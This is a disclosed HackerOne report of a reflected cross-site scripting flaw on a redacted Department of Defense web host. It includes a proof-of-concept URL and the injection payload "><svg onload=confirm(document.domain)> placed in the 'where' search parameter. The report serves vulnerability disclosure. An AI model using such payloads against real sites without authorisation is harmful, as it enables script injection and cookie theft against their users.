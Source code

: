 # Cross-site Scripting (XSS) - Reflected at https://██████████/

## Report Details
- **Report ID**: 1370746
- **URL**: https://hackerone.com/reports/1370746
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-10-15T06:15:02.762Z
- **Disclosed**: 2022-04-07T20:00:53.446Z

## Reporter
- **Username**: mamunwhh
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello Team,
i just found a reflected xss bug on your web https://█████

Step To reproduce:
 poc url: https://████/7/0/33/1d/www.citysearch.com/search?what=x&where=place%22%3E%3Csvg+onload=confirm(document.domain)%3E

## Impact

Impact
Data can be stolen, or Javascript can be executed.This is will allow the attacker to steal users cookies

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1. go to parameter  https://█████████/7/0/33/1d/www.citysearch.com/search?what=x&where=
2. enter "><svg+onload=confirm(document.domain)>

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments

